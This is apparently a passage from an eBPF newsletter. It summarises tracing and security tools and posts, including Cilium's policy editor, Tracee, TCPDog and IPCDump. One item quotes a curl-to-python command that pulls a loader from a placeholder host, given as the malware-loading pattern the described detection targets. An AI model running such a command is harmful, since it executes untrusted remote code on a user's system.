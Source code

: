 
- [_Using eBPF to uncover in-memory loading_](https://blog.tofile.dev/2021/02/15/ebpf-01.html),
  from Pat H.  
  Tracing with eBPF can be adapted to nearly any use case. In this post,
  programs are attached to trace the calls to `dup2()`, `write()` and `read()`,
  in order to detect when two process are sharing information through a bash
  pipe (`|`). The objective of the experiment is to detect commands constructed
  like this: `curl https://dodgy.com/loader.py | python -`, where a rogue
  process attempts in-memory loading of a malware. The post contains a
  refresher on how writing to and reading from pipes work on Linux, making it
  easy to understand and follow where the eBPF programs are attached.

### Software Projects

- The new <https://editor.cilium.io/> is a NetworkPolicy editor, introduced by
  the Cilium community as an easy and interactive way to learn, create,
  visualize, and share Kubernetes NetworkPolicies. It provides an intuitive
  overview of some of the features that Cilium implements with eBPF. More
  details are available in
  [the editor's announcement](https://cilium.io/blog/2021/02/10/network-policy-editor).

- [Tracee version 0.5.0](https://github.com/aquasecurity/tracee/discussions/563)
  is out. From a tracing command line tool, the project evolves into a runtime
  security solution and now encompasses tracee-ebpf—the command-line tool
  itself—and the libbpfgo library. It also includes tracee-rules, a “new rule
  engine to process tracee-ebpf's events and detects suspicious behavior based
  on built-in and user-defined 'signatures'”, which are defined in Open Policy
  Agent's Rego language or in Go.

- [TCPDog](https://github.com/mehrdadrad/tcpdog) is a new tool to collect TCP
  statistics with eBPF and to export them to an Elasticsearch or InfluxDB
  database. It can collect from all TCP-related kernel tracepoints at the same
  time, but the parameters to collect are configurable.

### Software: Demos and Experiments

- Guardicore released [IPCDump](https://github.com/guardicore/IPCDump) for
  tracing interprocess communications on Linux, be it through pipes, FIFOs,
  signals, UNIX sockets, loopback-based networking, or pseudoterminals. It
  draws some inspiration from Windows's procmon. Internally, it uses the gobpf
  library that provides Go bindings for the BCC framework. See also
  [the announcement post](https://www.guardicore.com/labs/ipcdump-guardicores-new-open-source-tool-for-linux-ipc-inspection/)
  for more details, with a few examples of tracing communication from Chrome
  events, or between processes like containerd and dockerd.

- Liz Rice has published a set of
  [basic eBPF examples using libbpfgo](https://github.com/lizrice/libbpfgo-beginners).
  The eBPF program is trivial, the objective is to get familiar with
  [libbpfgo](https://github.com/aquasecurity/tracee/tree/main/libbpfgo), a set
  of bindings in Go to the libbpf C library.

- [XDP minimal example](https://ruderich.org/simon/notes/xdp-minimal-example)
  is a note from Peter Ruderich describing a small but standalone XDP example,
  with a few explanations and pointers. This is an interesting program to get
  started with XDP (but don't forget the
  [XDP tutorial](https://github.com/xdp-project/xdp-tutorial/)).

